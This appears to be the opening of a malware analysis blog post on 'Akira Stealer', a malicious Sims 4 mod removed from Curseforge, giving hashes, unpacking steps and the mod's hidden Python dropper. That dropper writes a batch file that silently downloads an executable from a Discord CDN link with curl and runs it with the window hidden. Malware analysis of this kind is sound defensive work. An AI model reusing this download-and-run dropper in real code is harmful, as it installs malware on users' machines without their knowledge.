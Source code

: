 
---
title: "Akira Stealer - The Sims 4 malware"
categories: "malware analysis"
tags: ["cryptocurrency","python","obfuscation","akira", "electron"]
---

# Stage 0: Introduction

A few weeks ago, a user tried uploading a malicious mod to the Curseforge platform. This mod was aimed at users playing the game "Sims 4". In cooperation with the Curseforge community, the Curseforge moderation team quickly removed the malicious mod from the platform.
I personally found this very interesting, and asked for a copy of the sample from my colleagues, so I could analyze it.

# Stage 1: packed Sims 4 mod

|Algorithm|Hash|
|---|---|
|Sha256Sum| `425f89a19d4fe862ae78bafa3a2f17bdbdb416a00e87de78d6d446e71b90abf6`|
|MD5Sum|`175735b51ecc5597bd657cba0348db93`|

## Unpacking the mod

sims mods (`ts4script` files) are basically just a python script and a `pyc` object file zipped together, so unpacking it is as simple as running `7z e Social_Events.ts4script`

```sh
$> file Social_Events.ts4script 
Social_Events.ts4script: Zip archive data, at least v2.0 to extract, compression method=deflate
```

The extracted mod contained a few files, including a python script that handled the injection of custom content into the main Sims 4 instance, and it is also the entry point for this sample:

## The Python script

The Python script itself seemed fairly normal for a Sims 4 mod, except for the fact that it contained the following bit of code before it starts the "mod" part of it:

```python
temp_dir = tempfile.gettempdir()
bat_file = os.path.join(temp_dir, "script.bat")
with open(bat_file, "w") as f:
 f.write("@echo\n")
 f.write("curl -s -o %temp%\sims4c.exe https://cdn.discordapp.com/attachments/1196086210670637076/1204192190151000145/sims4c.exe\n")
 f.write("%temp%\\sims4c.exe\n")
 f.write("exit\n")
process = subprocess.Popen(["start", "/B", "/min", "cmd.exe", "/C", bat_file], shell=True)
ctypes.windll.user32.ShowWindow(ctypes.windll.kernel32.GetConsoleWindow(), 6)
process.communicate()
```
